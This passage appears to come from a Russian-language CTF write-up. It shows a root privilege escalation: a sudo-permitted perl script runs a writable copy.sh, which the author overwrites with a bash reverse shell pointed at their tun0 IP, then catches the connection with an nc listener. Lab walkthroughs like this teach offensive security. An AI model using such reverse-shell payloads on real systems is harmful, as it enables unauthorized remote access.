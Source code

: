 ### Question 2: What is the root flag?
Нам доступны для выполнения *perl* для *backup.pl*. На GTFOBins есть способ повышения привилегий через perl, но в данном случае он напрямую не сработал:

![ScreenShot](screenshots/23.png)

А вот далее, прочитав файл *backup.pl*, можно заметить, что через непосредственно *perl* можно выполнить *backup.pl*, который в свою очередь выполнит *copy.sh*

![ScreenShot](screenshots/24.png)

Просмотрим содержимое файла *copy.sh*:

![ScreenShot](screenshots/25.png)

В прочем, содержимое его нас мало волнует, потому что мы можем менять и запускать его. Вносим изменения в файл:
```sh
echo "bash -c 'bash -i >& /dev/tcp/<your tun0 IP>/9001 0>&1'" > copy.sh 
```
![ScreenShot](screenshots/26.png)

В отдельном терминале слушаем порт 9001:
```sh
nc -lvnp 9001
```
![ScreenShot](screenshots/27.png)
